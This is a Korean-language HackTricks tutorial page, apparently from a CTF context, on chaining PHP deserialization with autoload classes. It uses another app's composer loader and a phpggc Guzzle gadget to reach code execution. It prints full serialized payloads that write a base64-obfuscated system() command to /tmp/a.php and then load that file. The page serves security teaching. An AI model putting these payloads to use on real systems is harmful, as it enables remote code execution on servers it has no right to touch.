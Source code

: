 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

먼저, [**자동 로딩 클래스**](https://www.php.net/manual/en/language.oop5.autoload.php)가 무엇인지 확인해야 합니다.

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

우리는 **`phpggc`** 내부에 **가젯에 취약한** 라이브러리가 **없는** **웹앱에서 PHP deserialization**을 발견한 상황에 있습니다. 그러나 같은 컨테이너에 **취약한 라이브러리가 있는 다른 composer 웹앱**이 있었습니다. 따라서 목표는 **다른 웹앱의 composer 로더를 로드하고** 이를 악용하여 **deserialization에 취약한 웹앱의 가젯으로 해당 라이브러리를 악용하는 것**이었습니다.

단계:

* **deserialization**을 발견했지만 현재 앱 코드에 **가젯이 없습니다.**
* 다음과 같은 **`spl_autoload_register`** 함수를 악용하여 **`.php` 확장자를 가진 로컬 파일을 로드할 수 있습니다.**
* 이를 위해 클래스 이름이 **`$name`** 안에 들어가도록 deserialization을 사용합니다. 직렬화된 객체의 클래스 이름에 **"/" 또는 "."**를 사용할 수 없지만, **코드**는 **언더스코어**("\_")를 **슬래시**("/")로 **대체**하고 있습니다. 따라서 `tmp_passwd`와 같은 클래스 이름은 `/tmp/passwd.php`로 변환되고, 코드는 이를 로드하려고 시도합니다.\
**가젯 예시**는: **`O:10:"tmp_passwd":0:{}`**입니다.
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
파일 업로드가 가능하고 **`.php` 확장자**를 가진 파일을 업로드할 수 있다면, 이 기능을 **직접 악용**하여 이미 RCE를 얻을 수 있습니다.
{% endhint %}

제 경우에는 그런 것이 없었지만, **같은 컨테이너** 안에 **`phpggc` 가젯에 취약한 라이브러리를 가진 다른 composer 웹 페이지가 있었습니다.**

* 이 다른 라이브러리를 로드하려면 먼저 **그 다른 웹 앱의 composer 로더를 로드해야** 합니다(현재 애플리케이션의 로더는 다른 애플리케이션의 라이브러리에 접근할 수 없습니다). **애플리케이션의 경로를 알고** 있다면, **`O:28:"www_frontend_vendor_autoload":0:{}`**를 사용하여 매우 쉽게 이를 달성할 수 있습니다. (제 경우 composer 로더는 `/www/frontend/vendor/autoload.php`에 있었습니다.)
* 이제 **다른 앱의 composer 로더를 로드**할 수 있으므로, **사용할 `phpgcc`** **페이로드를 생성할** 시간입니다. 제 경우에는 **`Guzzle/FW1`**을 사용하여 **파일 시스템 내의 모든 파일을 쓸 수** 있었습니다.
* 주의: **생성된 가젯이 작동하지 않았습니다.** 작동하게 하려면 **`chain.php`** 페이로드를 수정하여 phpggc의 **모든 클래스 속성을** **private에서 public으로** 설정했습니다. 그렇지 않으면 문자열을 역직렬화한 후 생성된 객체의 속성에 값이 없었습니다.
* 이제 **다른 앱의 composer 로더를 로드할 방법이 생겼고**, **작동하는 phpggc 페이로드**도 있지만, **가젯이 사용될 때 로더가 로드되도록 동일한 요청에서 이를 수행해야** 합니다. 이를 위해 두 개의 객체가 포함된 직렬화된 배열을 보냈습니다:
* **먼저 로더가 로드되고 그 다음 페이로드가 로드되는 것을 볼 수 있습니다.**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* 이제 우리는 **파일을 생성하고 쓸 수 있지만**, 사용자가 **웹 서버 내의 어떤 폴더에도 쓸 수 없습니다**. 그래서 페이로드에서 볼 수 있듯이, PHP는 **`system`**을 호출하여 **`/tmp/a.php`**에 **base64**로 생성됩니다. 그런 다음, 우리는 **다른 웹앱의 composer 로더를 로드하기 위해 LFI에 사용했던 첫 번째 유형의 페이로드를 재사용할 수 있습니다** **생성된 `/tmp/a.php`** 파일을 로드하기 위해. 단순히 이를 역직렬화 가젯에 추가하면 됩니다:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**페이로드 요약**

* **다른 웹앱의 composer autoload**를 동일한 컨테이너에서 로드
* **phpggc 가젯**을 로드하여 다른 웹앱의 라이브러리를 악용 (역직렬화에 취약한 초기 웹앱은 라이브러리에 가젯이 없었습니다)
* 가젯은 **악성 명령어가 포함된 PHP 페이로드**를 /tmp/a.php에 생성합니다 (웹앱 사용자는 어떤 웹앱의 폴더에도 쓸 수 없습니다)
* 페이로드의 마지막 부분은 **생성된 PHP 파일을 로드**하여 명령어를 실행합니다

저는 **이 역직렬화를 두 번 호출해야 했습니다**. 제 테스트에서 첫 번째로 `/tmp/a.php` 파일이 생성되었지만 로드되지 않았고, 두 번째로는 올바르게 로드되었습니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
